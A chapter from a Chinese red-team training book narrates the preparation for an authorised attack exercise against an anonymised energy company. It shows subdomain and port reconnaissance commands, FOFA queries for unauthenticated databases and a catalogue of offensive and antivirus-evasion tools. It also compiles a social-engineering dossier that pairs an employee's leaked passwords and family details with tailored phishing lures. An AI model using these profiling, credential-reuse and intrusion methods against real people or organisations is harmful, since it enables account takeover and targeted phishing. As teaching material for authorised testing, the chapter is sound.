





# 第1章 护网红队行动全记录（上）

> **难度等级：⭐ 开胃菜**
>
> **预计阅读时间：120分钟**
>
> **本章看点：战前准备、情报战、武器库、分组分工**
>
> ::: tip 说明
> 本章中提到的技术细节，后续对应章节会有更深入的讲解。文中已标注"（详见第X章）"的，你可以翻到对应章节学习具体操作方法。
> :::

---

## 📖 本章概述

::: tip 写在前面
这不是小说，这是真实发生过的护网行动记录。

为了保密，所有的单位名称、人名、具体时间都已经做了脱敏处理。但操作流程、技术细节、心路历程，都是真实的。

看完这一章，你会明白：
- 护网不是一个人在战斗，是团队作战
- 情报比技术更重要
- 准备工作决定了80%的成败
- 红队的日常是什么样的
:::

---

## 🎯 学习目标

读完本章，你将了解：

- [x] 护网红队行动的完整战前准备流程
- [x] 红队是怎么做情报收集的（用什么工具、怎么操作）
- [x] 红队的武器库都有什么（分类、具体工具名）
- [x] 红队是怎么分组分工的（各组具体做什么）
- [x] 红队第一天都在干什么（按时间线详细记录）

---

## 🏆 背景介绍

### 1.1 什么是护网行动？

"护网行动"，全称是"网络安全攻防演习"，是由国家牵头组织的大型网络安全实战演习。

简单说就是：
- **红队**：扮演黑客，去攻击目标单位
- **蓝队**：防守方，保护自己的系统
- **紫队**：裁判，负责规则判定、计分、仲裁

每年都会搞，规模一年比一年大。参与的单位从政府、央企、金融、能源、交通、医疗、教育... 各行各业都有。

> 📌 **类比一下**：就像军事演习，红蓝双方对抗，检验真实战斗力。
> 护网就是网络空间的军事演习。

**护网行动的计分规则（简化版）：**
```
🏆 得分项：
- 拿到普通服务器权限：50分
- 拿到核心服务器权限：200分
- 拿到域控权限：500分
- 获取到指定重要数据：300分
- 拿到工作站权限：20分
- 拿到管理后台权限：100分
- ...还有很多细项

🚫 扣分项：
- 被蓝队溯源到：直接判负（严重）
- 违反规则操作：扣分/淘汰
- 打错目标：扣分
```

**图1-1 护网行动指挥中心示意图**


**图1-2 红队、蓝队、紫队对抗关系图**



### 1.2 我们的团队

这次行动，我们红队一共 **12个人**，分成了几个小组：

| 小组 | 人数 | 具体职责 | 队长 | 经验 |
|------|------|----------|------|------|
| 情报组 | 3人 | 信息收集、社工调查、钓鱼攻击、账号密码整理 | 老K | 7年红队经验，护网"老油条" |
| Web组 | 4人 | Web漏洞挖掘、外围打点、Webshell获取、提权 | 阿豪 | 5年Web渗透经验，挖过无数SRC |
| 内网组 | 3人 | 内网信息收集、横向移动、提权、域渗透 | 飞哥 | 8年内网经验，域渗透大神 |
| 支援组 | 2人 | 工具开发、免杀、基础设施、技术支援 | 大宇 | 6年开发+安全经验，全栈选手 |

**图1-3 红队分组架构图**



我呢？我是这次行动的副队长，主要负责协调各组进度，同时兼顾Web组的工作。

> 💡 **为什么这样分工？**
> 红队讲究的是"专业化协作"，每个人专攻自己擅长的领域，效率最高。
> 当然，每个人也都得懂点其他方向的东西，方便配合。

### 1.3 目标单位

这次我们抽到的目标，是一家 **大型省级能源集团**。

- 资产规模：**2000+** 台服务器（物理机+虚拟机）
- 人员规模：**5万+** 员工（总部+各地分公司）
- 业务系统：**100+** 个（生产、办公、管理、运维...）
- 防护等级：等保三级，有20人左右的专业安全团队
- 安全设备：防火墙、WAF、IDS/IPS、EDR、态势感知... 一应俱全

> 😅 说实话，抽到这个目标的时候，我们心里咯噔一下。
> 能源行业，防护一般都比较严，而且有专业的安全团队。
> 但反过来想，越是硬骨头，啃下来才越有成就感。
> 而且，这种目标一旦打下来，奖金也丰厚啊（笑）。

---

## 🚀 战前准备阶段（行动前1周）

### 2.1 第一次作战会议

行动开始前一周，我们团队开了第一次作战会议。

会议室不大，烟雾缭绕（后来被女同事明令禁止室内抽烟了），白板上写着大大的目标名称。

飞哥站在白板前，开始部署：

> "兄弟们，这次目标是XX能源集团，硬骨头。
> 我们有一周准备时间，我提几个要求：
> 1. 情报组明天就启动，从现在开始7x24小时收集信息
> 2. Web组准备好武器库，把常用的POC、EXP都更新一遍
> 3. 内网组准备好内网工具包，提权、横向、域渗透的工具都检查一遍
> 4. 支援组把C2基础设施搭好，免杀马先做几版备用
>
> 一周后，我们要拿出一份完整的攻击路径预案。"

会议开了3个小时，散会的时候，每个人的笔记本上都写满了待办事项。

**会议确定的时间节点：**
```
📅 D-7（行动前7天）：第一次会议，各组启动准备工作
📅 D-5（行动前5天）：第一次进度汇报，情报组拿出初步成果
📅 D-3（行动前3天）：第二次进度汇报，武器库、基础设施就绪
📅 D-1（行动前1天）：最终作战会议，确定攻击路径预案
📅 D-Day（行动当天）：正式开始
```

**图1-4 战前准备时间轴**

```mermaid
gantt
    title 红队战前7天准备时间轴
    dateFormat X
    axisFormat D-%s

    section 情报组
    OSINT收集 / 资产测绘       :a1, 0, 7
    社工调查 / 钓鱼准备         :a2, after a1, 3d

    section Web组
    POC/EXP更新                :b1, 0, 5
    武器库调优                  :b2, after b1, 2d

    section 内网组
    内网工具包检查              :c1, 0, 4
    提权/横向/域渗透准备        :c2, after c1, 3d

    section 支援组
    C2基础设施搭建             :d1, 0, 4
    免杀马制作多版本           :d2, after d1, 3d

    section 会议节点
    第一次作战会议 D-7         :milestone, m1, 0, 0
    进度汇报 D-5               :milestone, m2, 2, 0
    进度汇报 D-3               :milestone, m3, 4, 0
    最终会议 D-1               :milestone, m4, 6, 0
    正式开战 D-Day             :milestone, m5, 7, 0
```



### 2.2 情报战：知己知彼，百战不殆

情报组是最先动起来的。

老K带着两个小兄弟（一个叫小林，一个叫阿飞），开始了疯狂的信息收集。

**图1-5 情报收集作战地图**



#### 2.2.1 开源情报（OSINT）收集 — 域名篇

第一步，先从公开信息入手。先搞清楚目标有多少资产。

**一级域名确认：**
```
首先，确认目标的主域名：xxenergy.com

怎么确认的？
1. 目标单位官网 → 就是 xxenergy.com
2. 备案信息查询 → 主办单位是 XX能源集团有限公司
3. 证书透明度日志（CT Log）→ 大量证书都是这个域名的
```

> 🔍 **什么是证书透明度日志？**（详见第12章：信息收集）
> 简单说，就是所有颁发过的SSL证书都会被公开记录。
> 通过查这些记录，可以找到大量子域名。
> 这是被动信息收集的重要手段，不会留下任何痕迹。

**子域名收集（用了哪些工具）：**
```
🛠️ 用到的工具（详见第12章：信息收集）：

1. 被动收集（不直接连目标，不会被发现）：
   - subfinder  →  被动子域名枚举，集成了几十个数据源
   - amass      →  功能最强的子域名收集工具之一
   - OneForAll   →  国产神器，功能全面
   - 证书透明度日志查询  →  crt.sh、censys
   - 搜索引擎  →  Google Hacking、百度、必应
   - 网络空间搜索引擎  →  FOFA、钟馗之眼、Quake
   - GitHub码云等代码托管平台  →  搜泄露的配置文件
   - 威胁情报平台  →  微步、奇安信威胁情报中心...

2. 主动收集（直接连目标，可能会被发现，要控制频率）：
   - 字典爆破  →  dnsgen + massdns
   - 全网扫描  →  zmap（扫全网，找关联资产）
   - 爬虫  →  爬取官网，找链接
   - 证书探测  →  扫IP段，取证书里的域名

3. 第三方数据源：
   - 备案信息 → 找关联公司的域名
   - WHOIS信息 → 反查注册人/邮箱
   - 历史解析记录 → 找曾经用过的域名
```

**具体操作过程：**
```bash
# 第一步：用subfinder跑被动收集（最快，几分钟出结果）
$ subfinder -d xxenergy.com -o subfinder_result.txt
# 结果：找到 156 个子域名

# 第二步：用OneForAll跑（功能最全，但是慢，要跑几个小时）
$ python oneforall.py --target xxenergy.com run
# 结果：找到 234 个子域名（含重复）

# 第三步：用amass跑（补充数据源）
$ amass enum -d xxenergy.com -o amass_result.txt
# 结果：又补充了 40 多个

# 第四步：去重、合并
$ cat subfinder_result.txt oneforall_result.txt amass_result.txt | sort -u > all_subdomains.txt
# 最终：287 个不重复的子域名

# 第五步：存活探测（看看哪些是真的在用的）
$ httpx -l all_subdomains.txt -status-code -title -tech-detect -o alive_web.txt
# 结果：存活的Web服务 78 个

# 第六步：端口扫描（看看还有什么其他服务）
$ naabu -l all_subdomains.txt -p - -o ports_result.txt
# 结果：开放端口 300+ 个
```

> ⏱️ **时间投入**：光是子域名收集，情报组就花了整整两天。
> 为什么花这么久？因为要反复验证、去重、补充，确保尽可能全面。
> 漏掉一个子域名，可能就漏掉了一个突破口。

**最终收集到的关键子域名：**
```
🎯 高价值目标（重点关注）：
- oa.xxenergy.com      →  OA系统（企业微信/飞书/泛微/致远...）
- mail.xxenergy.com    →  邮件系统（Exchange/Coremail...）
- vpn.xxenergy.com     →  VPN系统（远程办公入口）
- portal.xxenergy.com  →  统一门户（单点登录入口）
- sso.xxenergy.com     →  统一身份认证
- ad.xxenergy.com      →  域控相关（可能暴露在公网？）

🧪 薄弱环节（防护可能较差）：
- test.xxenergy.com    →  测试环境（通常没什么防护）
- dev.xxenergy.com     →  开发环境（同上）
- demo.xxenergy.com    →  演示环境
- old.xxenergy.com     →  老系统（年久失修，漏洞多）
- bbs.xxenergy.com     →  论坛（CMS漏洞多）
- blog.xxenergy.com    →  博客

📁 信息型站点（收集情报用）：
- www.xxenergy.com     →  官网（公司介绍、新闻、联系方式）
- hr.xxenergy.com      →  招聘网站（部门信息、技术栈）
- about.xxenergy.com   →  关于我们（组织架构、领导介绍）
- news.xxenergy.com    →  新闻中心（动态、会议、活动）
```

#### 2.2.2 开源情报（OSINT）收集 — 人员篇

域名搞完了，接下来搞人。

**人员信息收集的渠道：**
```
👥 人员信息来源（详见第12章：信息收集）：

1. 职业社交平台：
   - LinkedIn（领英） → 外企/大公司员工多
   - 脉脉 → 国内职场人用得多
   - 猎聘/智联/前程无忧 → 招聘网站，有简历信息
   - GitHub/Gitee → 技术人员的代码仓库
   - 掘金/CSDN/博客园 → 技术博客

2. 社交媒体：
   - 微博 → 很多人实名认证
   - 抖音/快手 → 一不小心就泄露位置和工作
   - 微信公众号 → 公司和部门的公众号
   - 知乎 → 说不定有员工在上面答题

3. 公开资料：
   - 公司官网 → 领导介绍、组织架构
   - 新闻报道 → 采访、会议、活动
   - 招投标信息 → 用了什么系统、哪家厂商
   - 专利/论文 → 技术方向、研发人员
   - 会议公开信息 → 演讲嘉宾、参会人员
   - 法院裁判文书 → 各种意想不到的信息
```

**具体操作过程：**
```
第一步：先从公司官网下手
- 找到"关于我们"、"领导团队"、"组织架构"等栏目
- 把高管名单、部门设置都抄下来
- 结果：找到高管 20+ 人，部门 15 个

第二步：去领英/脉脉搜
- 搜公司名，找到在这家公司工作的人
- 重点看IT部门、信息安全部门的人
- 看他们的工作经历、技能标签
- 结果：找到员工 300+ 人，IT部门 40+ 人

第三步：去招聘网站看
- 看这家公司在招什么岗位
- 从岗位描述反推他们的技术栈
  比如：招Java开发 → 后端用Java
  比如：招深信服防火墙运维 → 防火墙是深信服的
  比如：招Exchange管理员 → 邮件系统是Exchange
- 结果：搞清楚了大概的技术栈

第四步：去GitHub等代码平台搜
- 搜公司名、域名、邮箱后缀
- 看看有没有员工不小心把公司代码传上去了
- 看看有没有配置文件、密钥、密码泄露
- 结果：找到几个内部项目的代码片段（价值不大）
       找到几个测试用的账号密码（小收获）

第五步：去各种社工库查
- 把收集到的邮箱拿去社工库里比对
- 看看有没有历史泄露的密码
- 结果：找到 120+ 条相关泄露记录
       其中密码还没改的有 20+ 个
```

> 🔒 **关于社工库的说明**
> 社工库就是把各种网站泄露的数据整理在一起的数据库。
> 这些数据很多都是公开的，在网上能找到。
> 但是，**私自买卖、使用他人个人信息是违法的！**
> 我们在护网行动中使用，是在合规范围内的。
> 大家学习的时候，一定要注意法律边界。

**重点关注对象（高价值目标）：**
```
👤 王XX，男，42岁，IT运维部主任
- 手机：138****5678
- 邮箱：wangxx@xxenergy.com
- 微信号：wx_wangxx（从他的技术论坛签名里找到的）
- 背景：在公司工作15年，老员工，技术出身
- 权限：管着20多个人的运维团队，有权限登录大部分服务器
- 风险等级：🔴 极高

👤 李XX，男，38岁，信息安全部经理
- 邮箱：lixx@xxenergy.com
- 背景：之前在某安全厂商工作，后来甲方挖过去的
- 权限：安全设备管理权限、日志审计权限
- 注意：这个人是对手，要小心，他可能在等着我们
- 风险等级：🟠 高（但要谨慎，容易被反钓鱼）

👤 张XX，男，35岁，系统管理员
- 邮箱：zhangxx@xxenergy.com
- 背景：主要管Windows服务器和域控
- 权限：大量服务器管理员权限、域管理员权限候选
- 风险等级：🔴 极高

👤 刘XX，男，33岁，系统管理员
- 邮箱：liuxx@xxenergy.com
- 背景：主要管Linux服务器和数据库
- 权限：Linux服务器root权限、数据库DBA权限
- 风险等级：🔴 极高

👤 赵XX，男，30岁，网络管理员
- 邮箱：zhaoxx@xxenergy.com
- 背景：管网络设备、防火墙、VPN
- 权限：网络设备管理权限、VPN管理权限
- 风险等级：🟠 高
```

**密码规律分析：**
```
从泄露的密码和社工库里的信息，我们总结出几个规律：

1. 公司统一初始密码格式：
   Xxny@2024（公司名缩写+年份）
   很多人懒得改，还在用初始密码

2. 个人密码习惯：
   - 姓名拼音+生日：比如 wangxh19820315
   - 姓名拼音+手机号后几位：比如 zhangxx1234
   - 公司名+数字：xxenergy888
   - 常见弱密码：123456、password、qwerty...

3. 估算：
   - 弱密码使用率：约15%（100个人里有15个用弱密码）
   - 多个系统共用密码的比例：约60%（大部分人图省事）
```

#### 2.2.3 资产测绘

接下来是资产测绘，用网络空间搜索引擎，看看目标在公网上暴露了多少东西。

**常用的网络空间搜索引擎：**
```
🌐 网络空间搜索引擎（详见第12章：信息收集）：

1. FOFA（ https://fofa.info ）
   - 国内用得最多的
   - 数据量大，更新快
   - 语法丰富，支持各种组合查询

2. 钟馗之眼（ https://www.zoomeye.org ）
   - 知道创宇做的
   - 也挺好用

3. Quake（ https://quake.360.net ）
   - 360做的
   - 数据也不少

4. Censys（ https://search.censys.io ）
   - 国外的
   - 证书数据很全

5. Shodan（ https://www.shodan.io ）
   - 国外的，最老牌
   - 号称"黑客的谷歌"
```

**FOFA常用查询语法：**
```
# 查某个域名的资产
domain="xxenergy.com"

# 查某个IP段
ip="1.2.3.0/24"

# 查某种服务
port="6379" && protocol="redis"

# 查某个标题
title="后台管理系统"

# 查某个证书
cert="xxenergy.com"

# 查某种技术栈
body="phpmyadmin"

# 组合查询
domain="xxenergy.com" && port="8080" && title="Tomcat"
```

**具体操作过程：**
```
第一步：先查域名相关的
fofa查询语句：domain="xxenergy.com"
结果：找到 180+ 个IP资产

第二步：查备案主体相关的
先查到目标公司的备案主体是"XX能源集团有限公司"
然后查：icp="XX能源集团有限公司"
结果：又找到 50+ 个关联域名和IP

第三步：查指纹
比如查他们用的OA系统是什么
通过网页标题、图标、特征字符串判断
结果：确认OA用的是泛微e-cology（版本不详）
     邮件系统是Coremail
     VPN是深信服的

第四步：查常见的漏洞服务
比如查Redis未授权：
port="6379" && ip="1.2.3.0/24"
结果：找到 3 台Redis服务器
其中 2 台是未授权的（直接就能连）

再查MongoDB：
port="27017" && ip="1.2.3.0/24"
结果：找到 1 台未授权的MongoDB

再查Elasticsearch：
port="9200" && ip="1.2.3.0/24"
结果：找到 2 台ES，其中1台未授权
```

**资产测绘的最终结果：**
```
📊 资产测绘汇总：

【IP段】
- 独立IP段：12个C段（约3000个IP）
- 主要分布在两个城市（总部+数据中心）

【端口分布】
- 80/443（Web）：78个
- 22（SSH）：38个
- 3389（RDP）：26个
- 21（FTP）：12个
- 6379（Redis）：3个（2个未授权）
- 27017（MongoDB）：1个（未授权）
- 9200（Elasticsearch）：2个（1个未授权）
- 3306（MySQL）：5个（都有密码，但是弱口令？待验证）
- 1521（Oracle）：3个
- 8080（Tomcat等中间件）：15个
- 8443（各种管理后台）：8个
- 其他各种端口：50+个

【重点发现】
- 2台Redis未授权访问 → 直接能打
- 1台MongoDB未授权 → 能看数据
- 1台ES未授权 → 能看数据
- 1台Tomcat后台弱口令（test/test）→ 直接能传shell
- 多个管理后台暴露在公网 → 可以尝试暴力破解
- 几台老版本的IIS → 可能有解析漏洞等
```

#### 2.2.4 社工画像

情报组最厉害的，是给目标单位的关键人物做"社工画像"。

什么是社工画像？就是把能找到的关于一个人的所有信息拼凑在一起，形成一个完整的人物档案。

**王主任的社工画像（完整版）：**
```
👤 基本信息
- 姓名：王XX
- 性别：男
- 年龄：42岁（1982年出生）
- 职位：IT运维部主任
- 工号：IT00123（从某个系统泄露的信息里找到的）
- 入职时间：2009年（工作15年）

📱 联系方式
- 手机：138****5678
- 邮箱：wangxx@xxenergy.com（工作邮箱）
        wangxx@163.com（个人邮箱）
- 微信号：wx_wangxx
- QQ号：12345678（从老论坛里找到的）

💼 工作背景
- 2009-2012：系统管理员，管服务器
- 2012-2018：运维组组长
- 2018-至今：IT运维部主任
- 技术栈：Windows Server、AD域、Exchange、VMware...
- 负责的系统：OA、邮件、核心业务系统运维
- 权限：大部分服务器的管理员权限、域管理员权限（候选）

🏠 个人信息
- 婚姻状况：已婚（从朋友圈看到的）
- 子女：一个儿子，今年18岁，高三（2024年高考）
- 居住地：XX市XX区XX小区（从他发的定位推测）
- 老家：XX省XX市（口音+社交资料）

🎯 兴趣爱好
- 钓鱼（周末经常去附近水库，朋友圈发过）
- 看球（足球迷，支持某中超球队）
- 看车（最近在看SUV，想换车，预算20-30万）
- 打游戏（偶尔玩王者荣耀，段位钻石）
- 逛技术论坛（某知名论坛ID：wangxx，发帖500+）

⚠️ 风险评估
- 价值等级：🔴 极高（拿到他的号基本就拿到内网通行证了）
- 钓鱼成功率评估：🟠 中高（技术人，警惕性比普通人高，但不是安全专业的）
- 最可能上钩的钓鱼类型：
  1. 儿子高考相关（比如高考成绩查询、志愿填报讲座）
  2. 钓鱼装备/钓鱼技巧分享（兴趣相关）
  3. 新车测评/优惠活动（最近在看车）
  4. 技术文章/工具分享（技术人感兴趣）
  5. 公司内部通知（OA邮件、系统升级通知）

🔑 已知密码
- 工作邮箱密码：Wxh@2024（从某泄露记录里找到的，待验证）
- 个人邮箱密码：wangxh19820315（同上）
- 某论坛密码：123456abc（老密码，可能已经改了）
```

> 🤔 你可能会问：这些信息都是哪来的？
>
> 说出来你可能不信，90%都是公开的：
> - 公司官网的领导介绍 → 姓名、职位
> - 他自己发的朋友圈、微博、抖音 → 家庭、兴趣、位置
> - 他在技术论坛的发帖记录 → 技术水平、联系方式
> - 新闻报道里的采访 → 职位、工作内容
> - 各种公开的会议名单 → 参会记录
> - 招聘网站的简历（如果他更新过的话）→ 工作经历
> - 社工库（历史泄露数据）→ 密码、账号
>
> **一个人在网上留下的痕迹，比你想象的多得多。**
> 有心人把这些信息拼凑起来，就能勾勒出一个非常完整的画像。

### 2.3 武器库准备

情报组在外面收集情报的时候，支援组的大宇，带着一个小兄弟，在准备我们的"武器库"。

所谓武器库，就是我们常用的各种工具、脚本、POC、EXP的集合。

**图1-6 红队武器库全景图**



#### 2.3.1 武器库的分类和具体工具

```
🔧 红队武器库完整分类（都是真实在用的工具）：

📡 第一类：信息收集工具（30+款）
├── 子域名收集：
│   - subfinder      →  被动子域名枚举，快，数据源多
│   - amass          →  功能最强的子域名收集工具
│   - OneForAll      →  国产神器，功能全面，中文文档
│   - dnsgen         →  根据已有的子域名，生成更多变种
│   - massdns        →  高速DNS解析器，配合爆破用
│   - dnsx           →  快速DNS多用途工具
│   - findomain      →  跨平台子域名枚举工具
│   - Sublist3r      →  老牌子域名枚举工具
│   - 还有很多...
│
├── 端口扫描/服务识别：
│   - nmap           →  扫描器之王，功能最全
│   - masscan        →  最快的端口扫描器，几分钟扫全网
│   - naabu          →  快速端口扫描，Go写的，配合httpx用
│   - rustscan       →  Rust写的，快，比nmap快很多
│   - zenmap         →  nmap的图形界面
│   - 还有很多...
│
├── 目录/文件爆破：
│   - dirsearch      →  Python写的目录爆破工具，常用
│   - feroxbuster    →  Rust写的，速度飞快
│   - gobuster       →  Go写的，也很快
│   - wfuzz          →  Web应用模糊测试工具
│   - dirb           →  老牌目录爆破工具
│   - 还有很多...
│
├── CMS/指纹识别：
│   - whatweb        →  网站指纹识别，插件多
│   - Wappalyzer     →  浏览器插件，看技术栈
│   - cmseek         →  CMS检测和利用工具
│   - EHole          →  红队指纹识别系统，国产
│   - TideFinger     →  潮汐指纹，国产
│   - Glass          →  目标资产识别工具
│   - 还有很多...
│
├── 漏洞扫描：
│   - xray           →  国产神器，主动+被动扫描，强推
│   - nuclei         →  基于模板的漏洞扫描器，POC多
│   - afrog          →  国产，也是基于模板的，POC也不少
│   - Goby           →  国产，攻击面管理工具，带扫描
│   - Nessus         →  老牌商业漏洞扫描器
│   - AWVS           →  Web漏洞扫描器，商业的，很强
│   - AppScan        →  IBM的，也是老牌
│   - 还有很多...
│
└── 其他信息收集：
    - httpx          →  快速HTTP存活探测，功能多
    - httprobe       →  HTTP/HTTPS探测
    - katana         →  新一代爬虫，Go写的
    - gospider       →  Go写的爬虫
    - waybackurls    →  查网站的历史快照
    - gau            →  GetAllUrls，获取历史URL
    - 还有很多很多...

🌐 第二类：Web渗透工具（50+款）
├── SQL注入：
│   - sqlmap         →  SQL注入之王，自动化注入神器
│   - 各种tamper脚本 →  用来绕过WAF
│   - NoSQLMap       →  NoSQL注入工具
│   - 还有很多手工注入的辅助脚本...
│
├── XSS相关：
│   - XSStrike       →  XSS扫描和利用工具
│   - xsser          →  XSS测试框架
│   - BeEF           →  浏览器利用框架，控制受害者浏览器
│   - DOM Invader    →  Burp自带的DOM XSS测试工具
│   - 还有很多XSS payload生成器...
│
├── 文件上传：
│   - upload-labs   →  靶场，用来练习上传绕过
│   - 各种上传绕过脚本 →  根据不同场景写的
│   - 免杀一句话木马 →  各种语言的都有
│
├── 命令执行/代码执行：
│   - 各种漏洞的POC/EXP →  太多了，按漏洞分类
│   - webshell管理工具 →  菜刀、蚁剑、冰蝎、哥斯拉...
│
├── 逻辑漏洞/越权：
│   - 主要靠手工 + BurpSuite
│   - Autorize       →  Burp插件，测越权的
│   - AuthMatrix     →  也是Burp插件，测权限
│
├── 抓包/改包：
│   - Burp Suite     →  Web渗透必备神器，不用解释
│   - Fiddler        →  Windows上的抓包工具
│   - Charles        →  Mac上常用的抓包工具
│   - Wireshark      →  网络抓包，分析协议用
│   - 还有很多...
│
└── 各种CMS漏洞利用工具：
    - 泛微OA漏洞利用工具集合
    - 致远OA漏洞利用工具集合
    - 通达OA漏洞利用工具集合
    - WordPress漏洞利用工具
    - Drupal漏洞利用工具
    - ...100多种CMS的EXP，应有尽有

💻 第三类：内网渗透工具（40+款）
├── 综合框架：
│   - Metasploit Framework (MSF)  →  渗透测试框架之王
│   - Cobalt Strike (CS)          →  红队神器，团队协作
│   - Empire                       →  PowerShell后期利用工具
│   - Covenant                     →  .NET的C2框架
│   - 还有很多其他C2框架...
│
├── 提权工具：
│   - Windows提权：
│   │   - Windows-Exploit-Suggester →  提权漏洞 suggester
│   │   - PowerUp               →  PowerShell提权脚本
│   │   - BeRoot                →  提权检查工具
│   │   - 各种提权EXP           →  MS17-010、CVE-2021-40449...
│   │   - 还有很多...
│   └── Linux提权：
│       - LinPEAS               →  Linux提权信息收集脚本
│       - LinEnum               →  同上，老牌一点
│       - Linux Exploit Suggester →  提权漏洞 suggester
│       - 各种提权EXP           →  脏牛、CVE-2021-4034...
│       - 还有很多...
│
├── 横向移动工具：
│   - impacket套件               →  一堆Python脚本，强推
│   │   - psexec.py            →  远程执行命令
│   │   - wmiexec.py           →  WMI远程执行
│   │   - smbexec.py           →  SMB远程执行
│   │   - secretsdump.py       →  转储哈希
│   │   - GetNPUsers.py        →  AS-REP Roasting
│   │   - GetUserSPNs.py       →  Kerberoasting
│   │   - 还有十几个...
│   - CrackMapExec (CME)        →  内网渗透瑞士军刀
│   - bloodhound                 →  域关系可视化，神器
│   - mimikatz                    →  抓密码、哈希、票据
│   - Rubeus                      →  Kerberos票据操作工具
│   - 还有很多很多...
│
├── 代理转发/内网穿透：
│   - frp                         →  最常用的内网穿透工具
│   - nps                         →  另一个很好用的穿透工具
│   - EarthWorm (EW)              →  老牌代理工具
│   - reGeorg                     →  WebShell转Socks代理
│   - Tunna                       →  同上类似
│   - chisel                      →  快速TCP/UDP隧道
│   - 还有很多...
│
└── 其他内网工具：
    - 端口转发工具一大堆
    - 密码喷洒工具
    - 字典生成工具
    - 哈希破解工具（hashcat、john...）
    - ...

🔇 第四类：免杀工具（20+款）
├── Shellcode加载器（各种语言的）：
│   - C语言加载器
│   - C#加载器
│   - Go加载器
│   - Rust加载器
│   - Python加载器（打包成exe）
│   - 免杀框架：AVIator、AV_Evasion...
│
├── 混淆/加密工具：
│   - 字符串混淆
│   - 控制流平坦化
│   - 虚拟化保护
│   - 加壳工具：UPX、VMProtect、Themida...
│
├── 免杀测试工具：
│   -  VirusTotal多引擎扫描
│   -  微步云沙箱
│   -  360沙箱
│   -  各种杀软在线扫描
│
└── 免杀效果验证工具

